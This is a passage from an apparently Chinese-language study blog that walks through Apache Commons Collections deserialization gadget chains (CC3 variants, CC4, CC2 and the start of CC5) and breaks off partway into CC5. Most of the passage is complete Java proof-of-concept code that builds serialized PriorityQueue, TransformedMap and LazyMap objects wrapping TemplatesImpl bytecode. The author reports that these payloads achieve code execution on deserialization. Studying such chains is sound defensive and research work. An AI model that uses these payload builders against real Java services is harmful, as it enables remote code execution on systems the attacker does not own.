  
来到了TraxFilter类  
#TraxFilter

```
public TrAXFilter(Templates templates)  throws  
    TransformerConfigurationException  
{  
    _templates = templates;  
    _transformer = (TransformerImpl) templates.newTransformer();  
    _transformerHandler = new TransformerHandlerImpl(_transformer);  
    _useServicesMechanism = _transformer.useServicesMechnism();  
}
```

发现在构造方法中调用了`templates.newTransformer();`,`templates`的值是自己传入的.那么此时需要有一个能够触发别人构造方法多的类.  
#InstantiateTransformer  
看transform方法

```
public Object transform(Object input) {
        try {
            if (!(input instanceof Class)) {
                throw new FunctorException("InstantiateTransformer: Input object was not an instanceof Class, it was a " + (input == null ? "null object" : input.getClass().getName()));
            } else {
                Constructor con = ((Class)input).getConstructor(this.iParamTypes);
                return con.newInstance(this.iArgs);
            }
        } catch (NoSuchMethodException var3) {
            throw new FunctorException("InstantiateTransformer: The constructor must exist and be public ");
        } catch (InstantiationException var4) {
            InstantiationException ex = var4;
            throw new FunctorException("InstantiateTransformer: InstantiationException", ex);
        } catch (IllegalAccessException var5) {
            IllegalAccessException ex = var5;
            throw new FunctorException("InstantiateTransformer: Constructor must be public", ex);
        } catch (InvocationTargetException var6) {
            InvocationTargetException ex = var6;
            throw new FunctorException("InstantiateTransformer: Constructor threw an exception", ex);
        }
    }
```

忽略那一堆异常处理,直接看核心逻辑

```
Constructor con =((Class)input).getConstructor(this.iParamTypes);
return con.newInstance(this.iArgs);
```

这就很明显了,先获取了类型为`Class`的`input`参数的构造方法,构造方法的参数列表为`this.iParamTypes`,然后又创建了一个该类的实例并返回.  
那么我们就可以得到修改后的衔接部分如下

```
ConstantTransformer ct = new ConstantTransformer(TrAXFilter.class);  
InstantiateTransformer it = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templatesimpl});  
Transformer[] transformers = {ct, it};
```

比较好理解,获取的是`TrAXFilter`的构造方法,给构造方法传入的参数是`Object[]{templatesimpl}`  
至此重新给出利用`InstantiateTransformer`的payload  
`AnotationInvokationHandler`的:

```
package org.example;  
  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;  
import org.apache.commons.collections.functors.InstantiateTransformer;  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.HashMap;  
import java.util.Map;  
  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.map.TransformedMap;  
  
import javax.xml.transform.Templates;  
import java.io.*;  
import java.lang.annotation.Target;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.InvocationTargetException;  
import java.util.HashMap;  
import java.util.Map;  
  
public class Main {  
    public static void main(String[] args) throws Exception{  
        TemplatesImpl templatesimpl = new TemplatesImpl();  
  
        Class<?> clazz = templatesimpl.getClass();  
        Field field = clazz.getDeclaredField("_name");  
        field.setAccessible(true);  
        field.set(templatesimpl, "test");  
  
        Field field2 = clazz.getDeclaredField("_bytecodes");  
        field2.setAccessible(true);  
        byte[] code = Files.readAllBytes(Paths.get("F:\idea_workspace\cc3\target\classes\org\example\test.class"));  
        byte[][] codes = {code};  
        field2.set(templatesimpl, codes);  
  
        Field field3 = clazz.getDeclaredField("_tfactory");  
        field3.setAccessible(true);  
        field3.set(templatesimpl, new TransformerFactoryImpl());  
  
        ConstantTransformer ct = new ConstantTransformer(TrAXFilter.class);  
        InstantiateTransformer it = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templatesimpl});  
        Transformer[] transformers = {ct, it};  
  
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
        /*  
        ChainedTransformer        */  
        HashMap<Object, Object> map = new HashMap<>();  
        map.put("value", ""); //解释二  
        Map decorated = TransformedMap.decorate(map, null, chainedTransformer);  
        /*  
        TransformedMap.decorate        */  
        Class clazz1 = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  
        Constructor annoConstructor = clazz1.getDeclaredConstructor(Class.class, Map.class);  
        annoConstructor.setAccessible(true);  
        Object poc = annoConstructor.newInstance(Target.class, decorated); //解释一  
       /*  
       AnnotationInvocationHandler       */  
        serial(poc);  
        unserial();  
    }  
  
    public static void serial(Object obj) throws IOException {  
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("./cc1.bin"));  
        out.writeObject(obj);  
    }  
  
    public static void unserial() throws IOException, ClassNotFoundException {  
        ObjectInputStream in = new ObjectInputStream(new FileInputStream("./cc1.bin"));  
        in.readObject();  
    }  
}
```

`LazyMap`的:

```
package org.example;  
  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InstantiateTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import javax.xml.transform.Templates;  
  
import java.io.*;  
  
import org.apache.commons.collections.Transformer;  
import org.apache.commons.collections.functors.ChainedTransformer;  
import org.apache.commons.collections.map.LazyMap;  
import org.apache.commons.collections.keyvalue.TiedMapEntry;  
  
import java.util.HashMap;  
import java.util.Map;  
  
public class Main {  
    public static void main(String[] args) throws Exception{  
        TemplatesImpl templatesimpl = new TemplatesImpl();  
  
        Class<?> clazz = templatesimpl.getClass();  
        Field field = clazz.getDeclaredField("_name");  
        field.setAccessible(true);  
        field.set(templatesimpl, "test");  
  
        String bytecodes = "_bytecodes";  
        Field field2 = clazz.getDeclaredField(bytecodes);  
        field2.setAccessible(true);  
        byte[] code = Files.readAllBytes(Paths.get("F:\idea_workspace\cc3\target\classes\org\example\test.class"));  
        byte[][] codes = {code};  
        field2.set(templatesimpl, codes);  
  
        Field field3 = clazz.getDeclaredField("_tfactory");  
        field3.setAccessible(true);  
        field3.set(templatesimpl, new TransformerFactoryImpl());  
  
        ConstantTransformer ct = new ConstantTransformer(TrAXFilter.class);  
        InstantiateTransformer it = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templatesimpl});  
        Transformer[] transformers = {ct, it};  
  
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
  
        Map lazymap = LazyMap.decorate(new HashMap(), chainedTransformer);  
        TiedMapEntry tiedMapEntry = new TiedMapEntry(LazyMap.decorate(new HashMap(), new ConstantTransformer(null)), null);  
  
        HashMap<Object, Object> hashMap = new HashMap<>();  
        hashMap.put(tiedMapEntry, null);  
  
        Class clazz1 = TiedMapEntry.class;  
        Field field1 = clazz1.getDeclaredField("map");  
        field1.setAccessible(true);  
        field1.set(tiedMapEntry, lazymap);  
  
        serial(hashMap);  
        unserial();  
    }  
  
    public static void serial(Object obj) throws Exception {  
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("./cc1.bin"));  
        out.writeObject(obj);  
    }  
  
    public static void unserial() throws Exception {  
        ObjectInputStream in = new ObjectInputStream(new FileInputStream("./cc1.bin"));  
        in.readObject();  
    }  
}
```

# CC4

复现环境:jdk<=8u65,commonsCollections=4.0  
CommonsCollections4.x版本移除了`InvokerTransformer`类不再继承`Serializable`,导致无法序列化.但是提供了`TransformingComparator`为CommonsCollections3.x所没有的,又带来了新的反序列化危险.  
cc4的执行命令部分依然沿用cc3的`TemplatesImpl`,而是对`ChainedTransfromer`后面的部分进行了修改,需要找一个新的出口去触发transform方法.

### 出口链子分析

发现`TransformingComparator.compare`能够触发`transform`方法

```
public int compare(final I obj1, final I obj2) {  
    final O value1 = this.transformer.transform(obj1);  
    final O value2 = this.transformer.transform(obj2);  
    return this.decorated.compare(value1, value2);  
}
```

查找引用  
  
一般来说,反序列化的出口一般是集合类或是能够容纳Object对象且继承自Serializable类的.这里是出现在了`PriorityQueue`类.  
#PriorityQueue  
看这个`siftDownUsingComparator`方法:

```
private void siftDownUsingComparator(int k, E x) {  
    int half = size >>> 1;  
    while (k < half) {  
        int child = (k << 1) + 1;  
        Object c = queue[child];  
        int right = child + 1;  
        if (right < size &&  
            comparator.compare((E) c, (E) queue[right]) > 0)  
            c = queue[child = right];  
        if (comparator.compare(x, (E) c) <= 0)  
            break;  
        queue[k] = c;  
        k = child;  
    }  
    queue[k] = x;  
}
```

可以看到调用了`comparator`的`compare`方法.而`siftDownUsingComparator`在`siftDown`中被调用.

```
private void siftDown(int k, E x) {  
    if (comparator != null)  
        siftDownUsingComparator(k, x);  
    else  
        siftDownComparable(k, x);  
}
```

查找一下`comparator`的定义如下

```
private final Comparator<? super E> comparator;
```

然而这个`siftDown`还是私有方法,也没被`readObject`调用,依然要往上找.  
  
找到了`heapify`方法

```
private void heapify() {  
    for (int i = (size >>> 1) - 1; i >= 0; i--)  
        siftDown(i, (E) queue[i]);  
}
```

这个方法被readObject调用了  
  
看到这个`readObject`的逻辑较为简单,比较欣慰

```
private void readObject(java.io.ObjectInputStream s)  
    throws java.io.IOException, ClassNotFoundException {  
    // Read in size, and any hidden stuff  
    s.defaultReadObject();  
  
    // Read in (and discard) array length  
    s.readInt();  
  
    queue = new Object[size];  
  
    // Read in all elements.  
    for (int i = 0; i < size; i++)  
        queue[i] = s.readObject();  
  
    // Elements are guaranteed to be in "proper order", but the  
    // spec has never explained what that might be.    
    heapify();  
}
```

因此我们写出一个利用脚本.

```
package org.example;  
  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;  
import org.apache.commons.collections4.comparators.TransformingComparator;  
import org.apache.commons.collections4.functors.InstantiateTransformer;  
import org.apache.commons.collections4.Transformer;  
import org.apache.commons.collections4.functors.ChainedTransformer;  
import org.apache.commons.collections4.functors.ConstantTransformer;  
  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.*;  
  
import org.apache.commons.collections4.Transformer;  
import org.apache.commons.collections4.functors.ChainedTransformer;  
import org.apache.commons.collections4.functors.ConstantTransformer;  
import org.apache.commons.collections4.functors.InvokerTransformer;  
import org.apache.commons.collections4.map.TransformedMap;  
  
import javax.xml.transform.Templates;  
import java.io.*;  
import java.lang.annotation.Target;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.InvocationTargetException;  
import java.util.HashMap;  
import java.util.Map;  
  
public class Main {  
    public static void main(String[] args) throws Exception{  
        TemplatesImpl templatesimpl = new TemplatesImpl();  
  
        Class<?> clazz = templatesimpl.getClass();  
        Field field = clazz.getDeclaredField("_name");  
        field.setAccessible(true);  
        field.set(templatesimpl, "test");  
  
        Field field2 = clazz.getDeclaredField("_bytecodes");  
        field2.setAccessible(true);  
        byte[] code = Files.readAllBytes(Paths.get("F:\idea_workspace\cc3\target\classes\org\example\test.class"));  
        byte[][] codes = {code};  
        field2.set(templatesimpl, codes);  
  
        Field field3 = clazz.getDeclaredField("_tfactory");  
        field3.setAccessible(true);  
        field3.set(templatesimpl, new TransformerFactoryImpl());  
  
        ConstantTransformer ct = new ConstantTransformer(TrAXFilter.class);  
        InstantiateTransformer it = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templatesimpl});  
        Transformer[] transformers = {ct, it};  
  
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
  
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);  
        PriorityQueue pq = new PriorityQueue<>(transformingComparator);  
        serial(pq);  
        unserial();  
    }  
  
    public static void serial(Object obj) throws IOException {  
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("./cc1.bin"));  
        out.writeObject(obj);  
    }  
  
    public static void unserial() throws IOException, ClassNotFoundException {  
        ObjectInputStream in = new ObjectInputStream(new FileInputStream("./cc1.bin"));  
        in.readObject();  
    }  
}
```

然而跑起来没有弹计算器.断点调试一下,发现下面的问题.在这里要求`i>=0`才能进入循环,然而此处`(size >>> 1) - 1`的值为-1,无法触发siftDown.  
  
size至少为2才行,使用反射修改size,成功弹出计算器

```
package org.example;  
  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;  
import org.apache.commons.collections4.comparators.TransformingComparator;  
import org.apache.commons.collections4.functors.InstantiateTransformer;  
import org.apache.commons.collections4.Transformer;  
import org.apache.commons.collections4.functors.ChainedTransformer;  
import org.apache.commons.collections4.functors.ConstantTransformer;  
  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.*;  
  
import org.apache.commons.collections4.Transformer;  
import org.apache.commons.collections4.functors.ChainedTransformer;  
import org.apache.commons.collections4.functors.ConstantTransformer;  
import org.apache.commons.collections4.functors.InvokerTransformer;  
import org.apache.commons.collections4.map.TransformedMap;  
  
import javax.xml.transform.Templates;  
import java.io.*;  
import java.lang.annotation.Target;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.InvocationTargetException;  
import java.util.HashMap;  
import java.util.Map;  
  
public class Main {  
    public static void main(String[] args) throws Exception{  
        TemplatesImpl templatesimpl = new TemplatesImpl();  
  
        Class<?> clazz = templatesimpl.getClass();  
        Field field = clazz.getDeclaredField("_name");  
        field.setAccessible(true);  
        field.set(templatesimpl, "test");  
  
        Field field2 = clazz.getDeclaredField("_bytecodes");  
        field2.setAccessible(true);  
        byte[] code = Files.readAllBytes(Paths.get("F:\idea_workspace\cc3\target\classes\org\example\test.class"));  
        byte[][] codes = {code};  
        field2.set(templatesimpl, codes);  
  
        Field field3 = clazz.getDeclaredField("_tfactory");  
        field3.setAccessible(true);  
        field3.set(templatesimpl, new TransformerFactoryImpl());  
  
        ConstantTransformer ct = new ConstantTransformer(TrAXFilter.class);  
        InstantiateTransformer it = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templatesimpl});  
        Transformer[] transformers = {ct, it};  
  
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
  
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);  
        PriorityQueue pq = new PriorityQueue<>(transformingComparator);  
  
        Class clazz1 = pq.getClass();  
        Field field1 = clazz1.getDeclaredField("size");  
        field1.setAccessible(true);  
        field1.set(pq, 2);  
  
        serial(pq);  
        unserial();  
    }  
  
    public static void serial(Object obj) throws IOException {  
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("./cc1.bin"));  
        out.writeObject(obj);  
    }  
  
    public static void unserial() throws IOException, ClassNotFoundException {  
        ObjectInputStream in = new ObjectInputStream(new FileInputStream("./cc1.bin"));  
        in.readObject();  
    }  
}
```

这里我看的教程因为是使用add去添加元素去赋值从而修改size,导致出现了一串问题.而我直接反射修改size就没有问题.  
总结出反序列化链子如下

```
Gadget chain:
PriorityQueue.readObject()
    PriorityQueue.heapify()  
        PriorityQueue.siftDown()
            PriorityQueue.siftDownUsingComparator()
                TransformingComparator.compare()
                    ChainedTransformer.transform()
                        ConstantTransformer.transform()
                        InstantiateTransformer.transform()
                            TemplatesImpl.newTransformer()
                                TemplatesImpl.getTransletInstance()
                                    TemplatesImpl.defineTransletClasses()
                                        TemplatesImpl.defineClass()
```

# CC2

复现环境:jdk<=8u65,commonsCollections=4.0  
cc2就是cc4的一个变种,无论是出口还是执行命令部分都没有改变,只是绕过了`Chainedtransformer`,直接将`InstantiateTransformer`和`TransformingComparator`去进行了衔接.  
直接放我改后的payload

```
package org.example;  
  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;  
import org.apache.commons.collections4.comparators.TransformingComparator;  
import org.apache.commons.collections4.functors.InstantiateTransformer;  
  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.*;  
  
import javax.xml.transform.Templates;  
import java.io.*;  
  
public class Main {  
    public static void main(String[] args) throws Exception{  
        TemplatesImpl templatesimpl = new TemplatesImpl();  
  
        Class<?> clazz = templatesimpl.getClass();  
        Field field = clazz.getDeclaredField("_name");  
        field.setAccessible(true);  
        field.set(templatesimpl, "test");  
  
        Field field2 = clazz.getDeclaredField("_bytecodes");  
        field2.setAccessible(true);  
        byte[] code = Files.readAllBytes(Paths.get("F:\idea_workspace\cc3\target\classes\org\example\test.class"));  
        byte[][] codes = {code};  
        field2.set(templatesimpl, codes);  
  
        Field field3 = clazz.getDeclaredField("_tfactory");  
        field3.setAccessible(true);  
        field3.set(templatesimpl, new TransformerFactoryImpl());  
  
//        ConstantTransformer ct = new ConstantTransformer(TrAXFilter.class);  
//        InstantiateTransformer it = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templatesimpl});  
//        Transformer[] transformers = {ct, it};  
//  
//        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
//  
//        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);  
//        PriorityQueue pq = new PriorityQueue<>(transformingComparator);  
  
        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templatesimpl});  
        TransformingComparator transformingComparator = new TransformingComparator(instantiateTransformer);  
        PriorityQueue pq = new PriorityQueue(transformingComparator);  
  
        Class clazz1 = pq.getClass();  
        Field field1 = clazz1.getDeclaredField("size");  
        field1.setAccessible(true);  
        field1.set(pq, 2);  
  
        /*  
        * 通过修改 PriorityQueue 的 queue 字段，来设置InstantiateTransformer的transform方法去构造的类  
         */       
        Class clazz0 = pq.getClass();  
        Field field0 = clazz0.getDeclaredField("queue");  
        field0.setAccessible(true);  
        field0.set(pq, new Object[]{TrAXFilter.class, null});  
  
        serial(pq);  
        unserial();  
    }  
  
    public static void serial(Object obj) throws IOException {  
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("./cc1.bin"));  
        out.writeObject(obj);  
    }  
  
    public static void unserial() throws IOException, ClassNotFoundException {  
        ObjectInputStream in = new ObjectInputStream(new FileInputStream("./cc1.bin"));  
        in.readObject();  
    }  
}
```

感觉网上的改法五花八门的,所以就没看自己去改的.重点分析`TrAXFilter.class`如何从队列的一个参数传递到`InstantiateTransformer`的,这也是cc2相对cc4的不同之处.(cc4是直接通过`ChainedTransformer`来衔接的,不需要进行传递)  
#PriorityQueue   
我们在cc4中分析过`siftDownUsingComparator`调用`compare`方法.

```
private void siftDownUsingComparator(int k, E x) {  
    int half = size >>> 1;  
    while (k < half) {  
        int child = (k << 1) + 1;  
        Object c = queue[child];  
        int right = child + 1;  
        if (right < size &&  
            comparator.compare((E) c, (E) queue[right]) > 0)  
            c = queue[child = right];  
        if (comparator.compare(x, (E) c) <= 0)  
            break;  
        queue[k] = c;  
        k = child;  
    }  
    queue[k] = x;  
}
```

发现compare方法的第二个参数传递的是`(E) queue[right]`,也就是说他把队列中的一个元素传递了过去.  
#TransformingComparator  
来看这个`compare`方法

```
public int compare(final I obj1, final I obj2) {  
    final O value1 = this.transformer.transform(obj1);  
    final O value2 = this.transformer.transform(obj2);  
    return this.decorated.compare(value1, value2);  
}
```

在接受到参数后,直接用参数执行了`transform`方法,也就是通过`obj2`将之前队列里的`TrAXFilter`传递给了`InstantiateTransformer`  
#InstantiateTransformer   
直接看这个`transform`

```
public Object transform(Object input) {
        try {
            if (!(input instanceof Class)) {
                throw new FunctorException("InstantiateTransformer: Input object was not an instanceof Class, it was a " + (input == null ? "null object" : input.getClass().getName()));
            } else {
                Constructor con = ((Class)input).getConstructor(this.iParamTypes);
                return con.newInstance(this.iArgs);
            }
        } catch (NoSuchMethodException var3) {
            throw new FunctorException("InstantiateTransformer: The constructor must exist and be public ");
        } catch (InstantiationException var4) {
            InstantiationException ex = var4;
            throw new FunctorException("InstantiateTransformer: InstantiationException", ex);
        } catch (IllegalAccessException var5) {
            IllegalAccessException ex = var5;
            throw new FunctorException("InstantiateTransformer: Constructor must be public", ex);
        } catch (InvocationTargetException var6) {
            InvocationTargetException ex = var6;
            throw new FunctorException("InstantiateTransformer: Constructor threw an exception", ex);
        }
    }
```

此时已经非常明了了.获取`TrAXFilter`的构造方法并构建一个实例,而`TrAXFilter`的构造方法中触发了`newTransformer`,这里已经对接上了cc3.  
归纳出利用链

```
Gadget chain:
PriorityQueue.readObject()
    PriorityQueue.heapify()  
        PriorityQueue.siftDown()
            PriorityQueue.siftDownUsingComparator()
                TransformingComparator.compare()
                    InstantiateTransformer.transform()
                        TemplatesImpl.newTransformer()
                            TemplatesImpl.getTransletInstance()
                                TemplatesImpl.defineTransletClasses()
                                    TemplatesImpl.defineClass()
```

# CC5

复现环境:common-collections版本<=3.2.1,java版本随意.cc5则是cc6的一个变形,换了一个出口.直接从有变化的位置开看.  
#TiedMapEntry

```
public class TiedMapEntry implements Map.Entry, KeyValue, Serializable {  
    private static final long serialVersionUID = -8453869361373831205L;  
    private final Map map;  
    private final Object key;  
    
    public TiedMapEntry(Map map, Object key) {  
        this.map = map;  
        this.key = key;  
    }  
    
    public Object getValue() {  
        return this.map.get(this.key);  
    }  
    
    public int hashCode() {  
        Object value = this.getValue();  
        return (this.getKey() == null ? 0 : this.getKey().hashCode()) ^ (value == null ? 0 : value.hashCode());  
    }  
  
    public String toString() {  
        return this.getKey() + "=" + this.getValue();  
    }  
}
```

通过`getValue`去触发`LazyMap`的`get`这点没有变,之前在cc6的时候是通过`hashCode`去触发的`getValue`,这里我们改变一下,通过`toString`来触发`getValue`  
#BadAttributeValueExpException  
直接看这个类的`readObject`方法

```
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {  
    ObjectInputStream.GetField gf = ois.readFields();  
    Object valObj = gf.get("val", null);  
  
    if (valObj == null) {  
        val = null;  
